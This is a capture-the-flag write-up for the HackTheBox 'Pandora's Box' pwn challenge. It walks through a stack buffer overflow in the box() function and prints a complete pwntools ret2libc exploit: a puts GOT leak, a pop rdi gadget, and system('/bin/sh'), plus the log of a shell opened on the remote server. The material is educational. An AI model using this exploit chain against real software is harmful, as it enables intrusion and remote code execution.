



# CTF HackTheBox - Cyber Apocalypse 2023 - The Cursed Mission - Pandora's Box


Category: Pwn, Points: 325




Attached file [pwn_pandoras_box.zip](./pwn_pandoras_box.zip)

# Pandora's Box Solution

Let's use `checksec` to examine the binary:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/pandoras_box]
└──╼ $ checksec sp_going_deeper
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './glibc/'

```

The binary has [Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) enabled, which removes the possibility of a [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/) overwrite attack. Additionally, there is no [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/) and no PIE.

Upon executing the binary, we obtain the following output:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/pandoras_box]
└──╼ $ ./pb


		◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙
		▣                 ▣
		▣       ◊◊        ▣
		▣ ◊◊◊◊◊◊◊◊◊◊◊◊◊◊◊ ▣
		▣       ◊◊        ▣
		▣                 ▣
		◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙

This is one of Pandora's mythical boxes!

Will you open it or Return it to the Library for analysis?

1. Open.
2. Return.

>> 
```

Upon decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra), we can observe the following `main` function:
```c
undefined8 main(void)
{
  setup();
  cls();
  banner();
  box();
  return 0;
}
``` 

We can see that the `main` function calls the `box` function. Let's observe the function's code:
```c
void box(void)
{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fwrite("This is one of Pandora\'s mythical boxes!\n\nWill you open it or Return it to the Library  for analysis?\n\n1. Open.\n2. Return.\n\n>> "
         ,1,0x7e,stdout);
  local_10 = read_num();
  if (local_10 != 2) {
    fprintf(stdout,"%s\nWHAT HAVE YOU DONE?! WE ARE DOOMED!\n\n",&DAT_004021c7);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  fwrite("\nInsert location of the library: ",1,0x21,stdout);
  fgets((char *)&local_38,0x100,stdin);
  fwrite("\nWe will deliver the mythical box to the Library for analysis, thank you!\n\n",1,0x4b,
         stdout);
  return;
}
```

This means that if we select option 2, we will have a chance to perform a buffer overflow.

However, since there is no win function in the binary, we will need to leak the `libc` address and use a `ret-to-libc` attack.

The `ret-2-libc` technique is similar to the standard stack overflow attack, but with one important distinction: instead of overwriting the return address of the vulnerable function with the address of the shellcode, the return address is overwritten with the address of a function in the libc library, such as `system()`. This allows us to execute shell code that is stored in the registry as arguments

First, we must determine the base address of the `libc` library. To accomplish this, we need to locate the function in both the Global Offset Table (GOT) and the Procedure Linkage Table (PLT). We can use a tool like `Ghidra` to assist us with this task.

Let us examine the `.got` and `.plt` sections of the program's memory layout. Our objective is to identify the addresses of the `puts()` function in both of these sections. By doing so, we can gain insight into the location of the libc library in memory:



We have successfully obtained the address of the puts function from the `.got` section, which is `0x403fa0`.

Now, let us also retrieve the address of `puts()` from the `.plt` section:



As seen in the image, the address of `puts()` in the .plt section is `0x401030`.

Our next step is to locate a `pop rdi, ret` gadget, which will allow us to pop the argument to the puts function. We can use a tool like `ROPGadget` to accomplish this task:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/pandoras_box]
└──╼ $ ROPgadget  --binary pb | grep rdi
...
0x000000000040142b : pop rdi ; ret
``` 

After conducting a search, we have located the `pop rdi, ret` gadget at address `0x40142b`. Our next step is to combine this address with the addresses of the `.got` and `.plt` sections of the `puts()` function. By doing so, we can leak the address of `puts()` in the libc library, which will enable us to calculate the base address of libc.

We can use the following code to accomplish this task:
```python
from pwn import *

elf = ELF('./pb')
libc = elf.libc

if args.REMOTE:
    p = remote('142.93.38.14', 31211)
else:
    p = process(elf.path)

def get_overflow():
    print(p.recvuntil('>>').decode('utf-8'))
    p.sendline("2")
    print(p.recvuntil(': ').decode('utf-8'))

def leak_libc():
    payload= b"A" * 56 # paddding
    payload+= p64(0x40142b) # pop rdi
    payload+= p64(0x403fa0) # got_put
    payload+= p64(0x401030) # plt_put
    payload+= p64(0x401016) #ret for stack aligment
    payload+= p64(0x004012c2) #adress in main that does not result in SIGEV

    p.sendline(payload)
    p.recvuntil(b'thank you!\n\n')
    leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))

    return leak
    

with log.progress("Step 1: Leak libc address, print the address of puts"):
    get_overflow()
    leak = leak_libc()
    log.info("Leaked puts:" + str(hex(leak)))
    libc.address = leak - libc.symbols['puts']
```

Having successfully obtained the base address of `libc`, our next step is to obtain a `ret-2-libc`. We can use the following code to accomplish this task:
```python
with log.progress("Step 2: use onegadget to get shell"):
    get_overflow()

    system = libc.sym.system 
    bin_sh = libc.search(b"/bin/sh").__next__() 

    payload=b"A"*56
    payload+=p64(0x401016) # ret
    payload+=p64(0x40142b) # pop rdi
    payload+= p64(bin_sh)
    payload+= p64(system)
   
    p.sendline(payload)	
    log.info("Shell..")
    p.interactive()
```

The whole script:
```python
from pwn import *

elf = ELF('./pb')
libc = elf.libc

if args.REMOTE:
    p = remote('165.232.98.59', 32729)
else:
    p = process(elf.path)

def get_overflow():
    print(p.recvuntil('>>').decode('utf-8'))
    p.sendline("2")
    print(p.recvuntil(': ').decode('utf-8'))

def leak_libc():
    payload= b"A" * 56 # paddding
    payload+= p64(0x40142b) # pop rdi
    payload+= p64(0x403fa0) # got_put
    payload+= p64(0x401030) # plt_put
    payload+= p64(0x4012c2) # adress of box function

    p.sendline(payload)
    p.recvuntil(b'thank you!\n\n')
    leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))
    return leak
    

with log.progress("Step 1: Leak libc address, print the address of puts"):
    get_overflow()
    leak = leak_libc()
    log.info("Leaked puts: " + str(hex(leak)))
    libc.address = leak - 0x80ed0 #libc.symbols['puts']
    
with log.progress("Step 2: use onegadget to get shell"):
    get_overflow()

    system = libc.sym.system 
    bin_sh = libc.search(b"/bin/sh").__next__() 

    payload=b"A"*56
    payload+=p64(0x401016) # ret
    payload+=p64(0x40142b) # pop rdi
    payload+= p64(bin_sh)
    payload+= p64(system)
   
    p.sendline(payload)	
    p.interactive()
```


Run it [solve.py](./solve.py):
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/pandoras_box]
└──╼ $ python3 solve.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/pandoras_box/challenge/pb'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/pandoras_box/challenge/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 165.232.98.59 on port 32729: Done
[▖] Step 1: Leak libc address, print the address of puts
        ◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙
        ▣                 ▣
        ▣       ◊◊        ▣
        ▣ ◊◊◊◊◊◊◊◊◊◊◊◊◊◊◊ ▣
        ▣       ◊◊        ▣
        ▣                 ▣
        ◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙

This is one of Pandora's mythical boxes!

Will you open it or Return it to the Library for analysis?

1. Open.
2. Return.

>>
[+] Step 1: Leak libc address, print the address of puts: Done
Insert location of the library: 

[*] Leaked puts: 0x7f9dc2e6ded0
[>] Step 2: use onegadget to get shell
This is one of Pandora's mythical boxes!

Will you open it or Return it to the Library for analysis?

1. Open.
2. Return.

>>
 
Insert location of the library: 
[*] Switching to interactive mode

We will deliver the mythical box to the Library for analysis, thank you!

$ ls
flag.txt
glibc
pb
$ cat flag.txt
HTB{r3turn_2_P4nd0r4?!}
```

And we get the flag `HTB{r3turn_2_P4nd0r4?!}`.